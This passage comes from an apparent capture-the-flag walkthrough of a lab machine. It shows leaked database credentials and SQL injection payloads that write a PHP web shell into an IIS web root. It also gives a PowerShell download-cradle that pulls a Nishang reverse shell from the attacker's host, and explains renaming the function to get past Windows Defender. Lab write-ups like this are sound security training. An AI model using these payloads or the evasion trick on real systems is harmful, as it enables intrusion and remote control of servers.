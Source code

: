 After decoding the Base64-string, it shows the code of _database.php_ which contains credentials to the database:
```
(...)
private static $dbName = 'warehouse' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'manager';
private static $dbUserPassword = 'l3tm3!n';
(...)
```

### Uploading a Web Shell

Lets upload a test file with the **OUTFILE** commmand:
```
productName=p' union select ("test"),2,3,4,5,6 INTO OUTFILE 'C:\\inetpub\\wwwroot\\test.txt'-- -
```

It first shows a general error, but after sending the request again, it shows that the file exists, so the upload worked:
```
Error: SQLSTATE[HY000]: General error: 1086 File 'C:\inetpub\wwwroot\test.txt' already exists
```

This proofs that it is possible to upload files and the **DUMPFILE** command will be used to upload a web shell:
```
productName=p' union select ("<?php system($_REQUEST['cmd']) ?>"),2,3,4,5,6 INTO DUMPFILE 'c:\\inetpub\\wwwroot\\shell.php'-- -
```

The PHP shell gets uploaded and can be accessed from the web root directory:
```
http://10.10.10.167/shell.php?cmd=whoami
```

By testing the command `whoami`, it responds with the username _"authority\iusr_" and proofs command execution.
The reverse shell I will upload is _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts**:
```
POST /shell.php HTTP/1.1
Host: 10.10.10.167
(...)

cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/revshell.ps1')"
```

It gets successfully downloaded, but it did not start a reverse shell connection.
That is because of **Windows Defender** which blocks the execution of the function name _"Invoke-PowerShellTcp"_.

After changing the name of the function and sending the request, the listener on my IP and port 9001 starts a reverse shell as _iusr_.

## Privilege Escalation
